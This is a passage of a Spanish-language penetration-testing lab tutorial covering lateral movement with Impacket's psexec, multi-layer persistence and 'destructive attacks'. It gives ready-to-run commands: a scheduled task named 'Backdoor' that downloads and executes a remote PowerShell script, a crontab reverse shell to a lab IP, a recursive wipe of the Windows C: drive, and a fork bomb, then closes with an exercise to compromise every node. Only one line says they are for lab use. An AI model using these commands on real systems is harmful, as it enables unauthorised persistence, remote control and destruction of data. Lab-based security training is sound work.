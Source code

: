 Con `psexec.py` de Impacket:

```bash
psexec.py administrator@192.168.56.102 cmd.exe
```

---

## 7.8. Persistencia Multi-Capa

* **Windows**:

```powershell
schtasks /create /sc minute /mo 30 /tn "Backdoor" /tr "powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://192.168.56.10/back.ps1')"
```

* **Linux**:

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'" >> /etc/crontab
```

---

## 7.9. Ataques Destructivos en Laboratorio

### Borrado de Datos (Windows)

```powershell
Remove-Item C:\* -Recurse -Force
```

### Sobrecarga de CPU (Linux)

```bash
:(){ :|:& };:
```

💡 Estos comandos son **solo para pruebas en laboratorio**.

---

## 7.10. Ejercicio Práctico Completo

1. Escanea toda la red con `masscan` y `nmap`.
2. Explotar SMBv1 en Windows y SQLi en Linux.
3. Escalar privilegios en ambos sistemas.
4. Movilizarse lateralmente y comprometer todos los nodos.
5. Implementar persistencia en ambos sistemas.
6. (Opcional) Ejecutar ataque destructivo controlado.

---

## 7.11. Cierre
